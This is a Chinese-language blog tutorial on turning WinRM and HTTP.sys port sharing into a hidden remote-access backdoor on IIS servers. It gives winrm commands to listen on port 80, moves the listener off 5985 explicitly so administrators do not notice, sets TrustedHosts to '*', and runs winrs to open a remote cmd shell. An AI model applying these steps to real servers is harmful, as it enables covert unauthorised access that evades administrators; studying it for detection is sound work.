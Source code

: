 **目录**

[WinRM端口复用原理](#t0 "WinRM端口复用原理")

[端口复用配置](#t1 "端口复用配置")

[新增80端口监听](#t2 "新增80端口监听")

[修改WinRM默认监听的端口](#t3 "修改WinRM默认监听的端口")

[远程连接WinRM](#t4 "远程连接WinRM")

* * *

WinRM端口复用原理
-----------

该端口复用的原理是使用Windows的远程管理服务WinRM，结合 HTTP.sys 驱动自带的端口复用功能，一起实现正向的端口复用后门。

关于WinRM服务，传送门：[WinRM远程管理工具的使用](https://xie1997.blog.csdn.net/article/details/105122945 "WinRM远程管理工具的使用") 

而HTTP.sys驱动是[IIS](https://so.csdn.net/so/search?q=IIS&spm=1001.2101.3001.7020)的主要组成部分，主要负责HTTP协议相关的处理，它有一个重要的功能叫Port Sharing(端口共享)。所有基于HTTP.sys驱动的HTTP应用都可以共享同一个端口，只需要各自注册的URL前缀不一样。而WinRM就是在HTTP.sys上注册了 wsman 的URL前缀，默认监听 5985端口。因此，在安装了IIS的Windows服务器上，开启WinRM服务后修改默认监听端口为80或新增一个80端口的监听即可实现端口复用，通过Web端口登录Windows服务器。

使用 netsh http  show  servicestate 命令可以查看所有在 HTTP.sys 驱动上注册过的URL前缀。

![](https://img-blog.csdnimg.cn/20200430163822821.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

端口复用配置
------

### 新增80端口监听

对于Windows Server 2012以上的服务器操作系统中，WinRM服务默认启动并监听了5985端口。如果服务器本来就监听了80和5985端口，则所以我们既需要保留原本的5985监听端口，同时需要新增Winrm监听80端口。这样的话，WinRM同时监听80和5985端口。既能保证原来的5985端口管理员可以正常使用，我们也能通过80端口远程连接WinRM。

通过下面的命令，可以新增WinRM一个80端口的监听。

```
winrm set winrm/config/service @{EnableCompatibilityHttpListener="true"}
```


![](https://img-blog.csdnimg.cn/20200430220436316.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20200430220630643.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

查看监听端口，80和5985都在监听

![](https://img-blog.csdnimg.cn/20200430220830297.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

80端口仍然可以正常访问网页

![](https://img-blog.csdnimg.cn/20200430222322913.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 修改WinRM默认监听的端口

如果该计算机上原本没有开启WinRM服务的话，则需要将WinRm端口监听端口修改为80端口。不然管理员看到该机器开起来5985端口的话，肯定会起疑心。

```
快速启动WinRM      
winrm  quickconfig  -q      
修改WinRM默认端口为80      
winrm set winrm/config/Listener?Address=*+Transport=HTTP @{Port="80"}
```


![](https://img-blog.csdnimg.cn/20200430223406718.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

查看监听端口，只有80，没有5985

![](https://img-blog.csdnimg.cn/20200430223453411.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

配置完成之后，原本的HTTP服务可以正常访问，我们也可以通过80端口进行远程WinRM连接管理。

![](https://img-blog.csdnimg.cn/20200430222358864.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

远程连接WinRM
---------

本地需要连接WinRM服务时，首先也需要配置启动WinRM服务。如果是工作组环境的话，还需要设置信任连接的主机，执行以下两条命令即可。

```
winrm quickconfig -q      
winrm set winrm/config/Client @{TrustedHosts="*"}
```


![](https://img-blog.csdnimg.cn/20200430224358939.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

```
通过WinRM连接，并执行whoami命令      
winrs -r:http://192.168.10.20 -u:administrator -p:root whoami       
通过WinRM连接，并获得交互式的shell      
winrs -r:http://192.168.10.20 -u:administrator -p:root cmd
```


![](https://img-blog.csdnimg.cn/20200430221313874.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

 如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！[知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具](https://wx.zsxq.com/dweb2/index/group/88514121251242 "知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具")

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)

参考文章：[一条命令实现端口复用后门](https://paper.seebug.org/1004/?utm_medium=referral&utm_source=tuicool "一条命令实现端口复用后门")